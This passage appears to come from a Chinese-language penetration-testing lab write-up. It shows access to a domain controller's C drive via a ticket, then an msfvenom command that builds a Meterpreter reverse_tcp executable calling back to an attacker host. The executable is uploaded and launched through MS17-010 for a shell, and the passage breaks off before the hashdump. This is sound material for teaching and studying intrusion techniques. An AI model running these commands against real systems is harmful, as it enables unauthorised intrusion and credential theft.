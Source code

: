 ![image-20220411163324362](./image-20220411163324362.png)

![image-20220411163314625](./image-20220411163314625.png)

成功利用票据访问到dc的C盘：

![image-20220411163428373](./image-20220411163428373.png)

给他挂载一下：

![image-20220411163950481](./image-20220411163950481.png)

远程桌面就可以看到DC的一个文件情况：

![image-20220411164010538](./image-20220411164010538.png)

然后用MSF生成一个马，利用Web上传到dc上，接下来利用MS17-010的命令执行启动该程序、

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lport=9999 lhost=10.10.10.80 -f exe > artifact.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes

meterpreter > upload /home/kali/artifact.exe C:/artifact.exe
[*] uploading  : /home/kali/artifact.exe -> C:/artifact.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/artifact.exe -> C:/artifact.exe
[*] uploaded   : /home/kali/artifact.exe -> C:/artifact.exe
meterpreter > shell
Process 2624 created.
Channel 4 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 65001
chcp 65001
Active code page: 65001
C:\>copy artifact.exe Z:\
copy artifact.exe Z:\
        1 file(s) copied.
```

可以看到可以利用MS17-010进行命令执行，那么接下来我们执行一下我们的木马，并且使用MSF接受这个会话。

![image-20220411165013209](./image-20220411165013209.png)

直接拿到了shell：

![image-20220411170708893](./image-20220411170708893.png)

Hashdump如下：
